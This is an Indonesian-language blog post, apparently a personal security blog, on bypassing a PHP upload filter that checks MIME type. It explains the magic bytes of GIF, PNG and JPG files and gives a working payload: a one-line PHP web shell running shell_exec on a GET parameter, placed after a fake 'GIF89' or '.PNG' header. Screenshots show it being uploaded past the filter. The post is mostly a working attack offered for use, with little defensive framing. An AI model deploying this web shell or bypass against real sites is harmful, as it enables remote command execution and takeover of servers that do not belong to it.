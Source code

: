 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```php
if($imageinfo['mime'] != 'image/gif' && 
   $imageinfo['mime'] != 'image/jpeg' && 
   $imageinfo['mime'] != 'image/jpg'&& 
   $imageinfo['mime'] != 'image/png') { die('Error 002'); }
```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```

```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it

Upload File shell langsung

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)

ternyata terdapat whitelist

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)

lalu di coba upload file shell yang sudah diedit

![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)

pwnd

![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)